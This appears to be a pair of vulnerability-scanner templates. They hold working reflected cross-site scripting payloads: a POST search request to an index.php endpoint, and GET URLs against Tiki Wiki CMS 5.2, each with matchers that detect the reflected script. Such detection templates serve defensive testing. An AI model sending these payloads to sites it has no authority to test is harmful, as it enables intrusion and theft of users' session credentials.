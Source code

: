 ### Step - 1

```
POST /index.php?q=result&searchfor=advancesearch HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

SEARCH=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&COMPANY=&CATEGORY=&submit=Submit

```

### Matchers

**Type - word**

- part - body
- words
  1. Result : \<script>alert(document.domain)\</script>
  2. ERIS
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Tiki Wiki CMS Groupware 5.2 - Cross-Site Scripting

## Description

- Tiki Wiki CMS Groupware 5.2 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - packetstorm,edb,xss,tikiwiki

## Requests

- Method - GET

### URL

- {{BaseURL}}/tiki-5.2/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E
- {{BaseURL}}/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E
